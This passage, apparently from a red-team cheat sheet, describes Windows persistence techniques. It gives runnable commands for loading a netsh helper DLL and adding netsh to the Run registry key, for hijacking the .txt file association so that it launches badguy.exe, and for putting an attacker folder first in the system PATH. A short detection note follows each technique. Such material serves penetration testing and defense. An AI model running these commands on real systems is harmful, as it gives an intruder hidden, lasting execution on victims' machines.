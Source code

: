 #### Example:
```powershell
 cmd> c:\windows\syswow64\netsh.exe

 netsh> add helper c:\path\to\badguy32.dll

 cmd> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"
```
add dll helpper module to netsh than add netsh to autorun

#### Detection:
User will see *Netsh* program in autorun (but it's hard to see **badguy32.dll**)

</br></br>

## Change default file association 

*refer: https://pentestlab.blog/2020/01/06/persistence-change-default-file-association/*

#### Example (txt,simple way):
```powershell
reg add "HKEY_CLASSES_ROOT\textfile\shell\open\command" /v (Default) /t REG_SZ /d "C:\path\to\badguy.exe"
```

*badguy.exe* executes when user opens file with **.txt** extension
#### Detection:
User can see malicious string in reg **HKCR**

</br></br>

## Path Interception
If some path is set, for example, before *c:\Windows\System32*  it means that all common programs inside *System32* first will be searched in other directories.
You can change **Path** variable to insert your "malicious" directory with programs, with names identical to programs inside *System32*. When this com	mands executes, your programs runs.

#### Example:
```powershell
SETX /M PATH "C:\badguy;%PATH%"

```
Programs ran by their names (e.g. from terminal) will be executed from *badguy* folder if they exist in it.


#### Detection:
User can see **PATH** variable

</br></br>

## AMSI (Antimalware Scan Interface)
